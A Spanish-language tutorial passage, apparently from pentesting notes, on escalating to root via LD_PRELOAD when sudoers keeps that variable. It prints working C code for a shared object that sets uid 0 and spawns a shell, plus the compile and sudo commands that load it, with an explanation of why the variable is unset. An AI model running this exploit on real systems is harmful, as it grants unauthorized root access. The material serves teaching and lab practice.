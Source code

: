 #### Bala de plata V: Sudo y ficheros SUID

**Explotación de LD\_Preload**

Si en el fichero de sudoers hay "env\_keep += LD\_PRELOAD" , significa que LD\_PRELOAD que no deja de ser una ubicación de librerías, esta activa. Por lo que cuando un usuario ejecute un programa con sudo, sudo sabe donde ha de buscar las librerías compartidas para funcionar.

La idea es crear un objeto .so, referénciado por LD\_PRELOAD y que sera cargado antes que cualquier otro.

¿Pero...porque es necesaria la opción env\_keep?

La limitación es que LD\_PRELOAD no funcionara si el RUID y el EUID no son el mismo. Por ese motivo, es necesario que LD\_PRELOAD = env\_keep option

Si no existe esta configuración, no se puede explotar esta vulnerabilidad

**Creación de la shell**

1. Creación de shell.c en /tmp:

\#include \#include \#include \#include

void \_init\(\) { unsetenv\("LD\_PRELOAD"\); setgid\(0\); setuid\(0\); system\("/bin/sh"\); }

1. Lo pasamos a libreria.so:

cc -fPIC -shared -o shell.so shell.c -D\_GNU\_SOURCE -nostartfiles

1. Entonces:

sudo LD\_PRELOAD=/tmp/shell.so xxx \(comando que tengamos permiso de sudo\)

Como va a cargar con privilegios de sudo nuestra "shell" se ejecuta y voilà

**Explicaciones sobre el código**

unsetenv: Environment variables such as LD\_PRELOAD are inherited by child processes. The linked example overrides the \_init symbol to invoke a shell using system\("/bin/bash"\). If the environment variable would not have been cleared, then it would effectively be stuck in an "infinite loop" when invoking system.

Environment variables such as `LD_PRELOAD` are inherited by child processes. The linked example overrides the `_init` symbol to invoke a shell using system\("/bin/bash"\). If the environment variable would not have been cleared, then it would effectively be stuck in an "infinite loop" when invoking `system`.

If you watch your process list \(using `ps aux` for example\), you will see a bunch of shell processes. The system library function creates a new process and executes `/bin/sh -c "...."`. Every time, `_init` is executed.

system\(\) hace un fork y ejecuta execl\(\) con /bin/sh -c "COMMAND"

cuando se hace un fork, se "clona" el contexto del proceso, lo que implica copiar todas las variables de entorno

si LD\_PRELOAD esta seteado, lo va a pasar como contexto al execl\(\) y como este lleva tu binario, que sobreescribe \_init\(\) cuando se ejecute /bin/sh lo primero que hará es cargar tu binario, que sobreescribe \_init y este volverá a haver el system\(\) en un bucle infinito
